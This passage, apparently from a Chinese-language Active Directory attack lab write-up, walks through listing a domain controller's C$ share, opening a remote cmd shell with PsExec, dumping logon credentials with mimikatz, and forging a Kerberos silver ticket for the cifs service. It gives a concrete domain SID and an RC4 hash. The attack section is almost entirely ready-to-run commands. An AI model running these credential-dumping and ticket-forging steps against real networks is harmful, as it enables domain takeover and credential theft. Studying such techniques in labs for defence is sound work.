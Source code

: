   

**4.查看共享**

```
dir \\WIN-6JM3ECTM2CO.safe-duck.com\c$
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**5.利用psexec 调用目标域控制器的cmd**

```
PsExec.exe \\WIN-6JM3ECTM2CO.safe-duck.com cmd.exe
```

```
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
```

  

* * *

  

**五、白银票据攻击测试**
==============

  

**1.获取域控的设备名称**

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**2.获取域的sid**

```
whoami /all
```

```
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

```

  

**3.获取域控的hash(死循环第二季)**

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > 2.txt
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**4.域内主机伪造白银票据**

```
mimikatz.exe "kerberos::golden /user:win7 /domain:safe-duck.com /sid:S-1-5-21-4065905668-3814866385-3259433788 /target:WIN-6JM3ECTM2CO.safe-duck.com /service:cifs /rc4:9f1ed160f3dff10ba81109cbaf19f5fc /ptt" exit
```
